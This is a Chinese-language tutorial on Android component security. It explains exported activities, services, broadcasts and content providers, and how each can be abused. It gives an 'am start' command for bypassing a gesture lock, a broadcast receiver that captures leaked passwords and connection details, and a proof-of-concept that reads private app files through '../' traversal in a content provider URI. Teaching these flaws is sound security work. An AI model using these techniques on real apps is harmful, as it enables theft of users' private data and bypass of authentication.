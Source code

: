 Android组件安全

首先要知道，Android 中最重要的风险点就是 android:exported=”true” 这一属性。组件被导出就意味着大概率会产生漏洞。
首先了解一下四大组件：activity，service，broadcast，contentprovider。
对于 app 来说，每一个界面都是一个 activity，每一个 activity 都会有着不同的功能，比如注册，登录，手势密码等。每一个 activity 的切换需要不同的条件。
service 服务，伴随着程序启动，会一直在后台运行，主要是检测作用，检测客户端的状态，上传用户的操作。
broadcast 分为两个方面，广播发送者和广播接收者。Android 提供一整套的 api，允许 app 自由的发送和接收广播。
contentProvider是用来保存或者获取数据，并使其对所有应用程序可见。
这是不同应用程序间共享数据的唯一方式，因为android 没有提供所有应用共同访问的公共存储区。比如通讯录数据。

越权绕过

对于 activity 组件，主要会存在越权绕过，比如绕过手势密码，跳过验证阶段。此处可以利用直接启动手势密码之后的活动来进行验证
Default
am start -n 包名/.活动名

若是可以直接启动，则证明存在越权漏洞。

拒绝服务攻击

还有拒绝服务攻击，Android 提供 Intent 机制来协助应用间的交互与通讯，Intent 负责对一次操作的动作、动作涉及的数据进行描述，系统则根据此 Intent 描述，来调用对应的 Activity、 servicer 和 BroadCast 等组件，来完成组件的调用。
如果程序没有对 Intent.getXXXExtra() 获取的异常或者畸形数据处理时没有进行异常捕获，就会导致攻击者可通过向受害者应用发送此类空数据、异常或者畸形数据来使该应用崩溃，简单的说就是通过 intent 发送空数据、异常或畸形数据给应用，来实现让应用崩溃的目的。
对应的不同报错信息
Default
Java.lang.NullPointerException，原因是程序没有对getAction()等获取到的数据进行空指针判断。intent.putExtra("", "");导致空指针异常导致应用崩溃
Java.lang.ClassCastException 原因是程序没有getSerializableExtra()等获取到的数据进行类型判断而进行强制类型转换
Java.lang.IndexOutOfBoundsException，原因是程序没有对getIntegerArrayListExtra()等获取到的数据数组元素大小的判断
Java.lang.ClassNotFoundException，原因是程序没有无法找到
从getSerializableExtra()获取到的序列化类对象的类定义

service服务暴露

以之前版本的某 app 为例，其中的升级服务，传入 PushMsg 的 Serializable 的数据。
此时恶意伪造并启动暴露的service

Broadcast 暴露

比如目标程序如下，
Default
    Intent v1 = new Intent();
    v1.setAction("com.simple.action.server_running");
    v1.putExtra("local_ip",v0.h);
    v1.putExtra("port",v0.i);
    v1.putExtra("code",v0.g);
    v1.putExtra("connected",v0.s);
    v1.putExtra("pwd_predefined",v0.r);
    if(!TextUtils.isEmpty(v0.t)){
        v1.putExtra("connected_usr",v0.t);
    }
    sendBroadcast(v1);
}

该程序通过 intent 隐式传递，并通过 action 匹配发送一个广播，这样系统内其他程序都可以接收到这个广播，然后在广播接收者中编写接收代码，这样就可以通过攻击代码获取敏感数据信息
Default
public void onReceive(Context context,Intent intent){
    String s = null;
    if(intent.getAction().equals("com.sample.action.server_running")){
        String pwd=intent.getStringExtra("connected");
        s="Airdroid => ["+pwd+"]/"+intent.getExtras();
    }
    Toast.makeTest(context,String.format("%sReceived",s),Toast.LENGTH_SHORT).show();
}

content Provider目录遍历漏洞

Android Content Provider 存在文件目录遍历安全漏洞，该漏洞源于对外暴露 Content Provider组件的应用，没有对 Content Provider 组件的访问进行权限控制和对访问的目标文件的Content Query Uri 进行有效判断，攻击者利用该应用暴露的 Content Provider的openFile()接口进行文件目录遍历以达到访问任意可读文件的目的。
此时的条件是对外暴露的Content Provider组件实现了openFile()接口
没有对所访问的目标文件 Uri 进行有效判断，如没有过滤限制如“../”可实现任意可读文件的访问的 Content Query Uri 。
比如，某 APP 的实现中定义了一个可以访问本地文件的 Content Provider 组件，默认的 android:exported=”true” ,对应 com.xxxx.android.jobs.html5.LocalFileContentProvider，该 Provider 实现了 openFile() 接口，通过此接口可以访问内部存储 app_webview 目录下的数据，由于后台未能对目标文件地址进行有效判断，可以通过”../”实现目录跨越，实现对任意私有数据的访问。

攻击poc
Default
public void GJContentProviderFileOperations(){
    try{
        InputStream in = getContentResolver().openInputStream(Uri.parse("content://com.xxx.html5.localfile.1/webview/../../shared_prefs/userinfo.xml"));
        ByteArrayOutputStream out = new ByteArrayOutputStream();
        byte[] buffer = new byte[1024];
        int n = in.read(buffer);
        while(n>0){
            out.write(buffer, 0, n);
            n = in.read(buffer);
            Toast.makeText(getBaseContext(), out.toString(), Toast.LENGTH_LONG).show();
        }
    }catch(Exception e){
        debugInfo(e.getMessage());
    }
}